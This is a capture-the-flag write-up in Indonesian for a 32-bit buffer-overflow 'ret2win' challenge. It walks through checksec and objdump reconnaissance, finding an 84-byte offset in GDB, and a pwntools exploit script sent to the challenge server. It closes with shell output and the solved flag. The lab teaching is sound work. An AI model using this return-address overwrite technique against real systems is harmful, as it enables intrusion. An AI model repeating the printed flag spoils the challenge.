



# Write-Up: ret2win (150 Points - Binary Exploitation)

## Analisis Masalah

Challenge ini memberikan sebuah file binary executable 32-bit bernama `chall` dan akses ke server melalui netcat (`nc`). Deskripsi challenge "Simple ret2win" mengindikasikan penggunaan teknik **Return-to-Win**.

Program meminta input string ("Kata-kata untuk hari ini"). Analisis awal menunjukkan adanya kerentanan **Buffer Overflow** karena penggunaan fungsi input yang tidak aman (seperti `gets`), yang memungkinkan kita memanipulasi *Return Address* program untuk melompat ke fungsi rahasia.

## Langkah Penyelesaian

### 1. Informasi Binary (Reconnaissance)

Langkah pertama adalah mengidentifikasi arsitektur dan proteksi keamanan pada binary menggunakan `file` dan `checksec`.

```bash
file chall
checksec --file=chall

```

**Analisis:**

* **Arch:** 32-bit (i386).
* **NX:** Disabled (Stack Executable).
* **PIE:** No PIE (Alamat memori statis/tetap).
* **Canary:** No Canary (Tidak ada proteksi integritas stack).

Absennya proteksi **PIE** dan **Canary** membuat eksploitasi menjadi sangat mudah karena alamat fungsi target tidak akan berubah-ubah.

### 2. Mencari Fungsi Target

Saya mencari fungsi yang tidak dipanggil secara normal tetapi berpotensi mencetak flag/memberikan shell. Saya menggunakan `objdump` untuk melihat daftar simbol.

```bash
objdump -d chall | grep ini_flag

```

Ditemukan fungsi bernama `ini_flag` pada alamat **`0x080491f3`**. Ini adalah alamat tujuan (*win address*) yang akan kita tuju.

### 3. Mencari Offset Buffer Overflow

Saya perlu mengetahui berapa banyak karakter (padding) yang dibutuhkan sebelum menimpa register **EIP** (Instruction Pointer). Saya melakukan debugging menggunakan GDB.

1. Saya membuat pola unik (cyclic pattern) sepanjang 200 karakter.
2. Input pola tersebut ke dalam program hingga terjadi crash (Segmentation Fault).
3. Memeriksa nilai register **EIP** saat crash.

```bash
(gdb) info registers
eip            0x61616176

```

Nilai `0x61616176` (ASCII "vaaa") ditemukan pada offset ke-**84**. Artinya, kita butuh 84 byte sampah sebelum bisa menimpa Return Address.

### 4. Eksploitasi (Scripting)

Saya menyusun script Python menggunakan library `pwntools` untuk melakukan serangan ke server. Payload disusun dengan struktur:
`[Padding 'A' x 84] + [Alamat ini_flag (0x080491f3)]`

```python
from pwn import *

# Konfigurasi
host = 'ctf-chall.stembascc.com'
port = 5202
binary = './chall'

# Setup Context
context.binary = ELF(binary)
p = remote(host, port)

# Target
win_addr = 0x080491f3
offset = 84

# Payload
payload = b'A' * offset + p32(win_addr)

# Kirim Exploit
log.info(f"Mengirim payload... Offset: {offset}, Win: {hex(win_addr)}")
p.sendline(payload)
p.interactive()

```

Saat script dijalankan, alur program berhasil dibelokkan ke fungsi `ini_flag` dan memberikan akses shell interaktif.

```bash
$ ls
chall
flag.txt
$ cat flag.txt
STEMBACTF{ret2win_k4t4_K3t4_Muti4r4}

```

## Tools yang Digunakan

1. **checksec** - Mengidentifikasi mitigasi keamanan binary.
2. **objdump** - Mencari alamat memori fungsi `ini_flag`.
3. **GDB** - Debugging untuk mencari offset crash.
4. **Pwntools** - Membuat script otomasi eksploitasi.

## Kesimpulan

Challenge ini mengeksploitasi kerentanan Buffer Overflow klasik pada binary 32-bit tanpa proteksi Canary dan PIE. Dengan membanjiri buffer sebanyak 84 byte, kita dapat menimpa *Saved Return Address* pada stack dengan alamat fungsi `ini_flag`, memaksa program mengeksekusi kode kemenangan.

Flag: **`STEMBACTF{ret2win_k4t4_K3t4_Muti4r4}`**